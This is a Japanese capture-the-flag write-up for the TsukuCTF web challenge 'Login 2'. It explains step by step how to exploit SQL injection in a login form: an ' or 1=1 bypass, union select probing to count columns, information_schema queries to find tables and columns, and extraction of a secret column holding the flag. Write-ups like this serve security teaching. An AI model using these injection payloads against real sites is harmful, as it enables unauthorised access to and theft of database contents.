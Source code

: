 ```yaml
---
title: Login1
description: union select  によるSQLi
author: FullteaOfEEIC
genre: Web
solver: 21
point: 323
---
```


# Login 2

> 筑紫君が自分の会員制サイトを修正したんだって。でもどうやら何が問題だったのかわかっていないみたいですよ?
> 
> https://tsukuctf.sechack365.com/problems/login2
> 
> ※ この問題では/problems/login2以下のみを用います。 他の問題/problems/<name>などと混同しないよう注意してください。

Login 1 ~ 3がセットでSQL injectionの問題になっています。
Login2では、SQL injectionが可能な場所を見つけた後に、適切なInjectionによりデーターベース内の情報を探索することでflagを得ることができます。

まずUsernameに``` ' or 1=1 ; -- ```を指定すると、図のようなログイン画面![login2](./login2.png)が表示されます。どうやらここにSQLiができそうです。
```UNION SELECT``` で情報を抜くために、まずSELECT文のカラム数を特定します。
Usernameとして ```' union select null ; -- ```,  ```' union select null, null ; -- ```,  ```' union select null, null, null ; -- ```  ...とnullの数を増やしていくと、nullが2個のときにログインに成功します。
これにて攻撃の準備は完了です。ここからは、データベース内を探索していきます。

MySQL内のデータに関する情報は、```information_schema.columns```というテーブルに収納されています。まずは、ここの```table_name```というカラムを見るのが定石です。ということで、Usernameに

```
' UNION SELECT table_name, null FROM information_schema.columns; -- 
```
を入力してログインすると、```super_secret_table```というテーブルがあることがわかります。多分flagはここでしょう。
次に、カラム名を知るために、Usernameを

```
' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name = 'super_secret_table'; -- 
```
としてログインします。すると、idとsecretというカラムがあることがわかります。
最後に、

```
' UNION SELECT secret, null FROM super_secret_table; -- 
```

とすればflagがゲットできます。

```txt
TsukuCTF{50_muCh_GR3AT_Hacker_!ND3ED}
```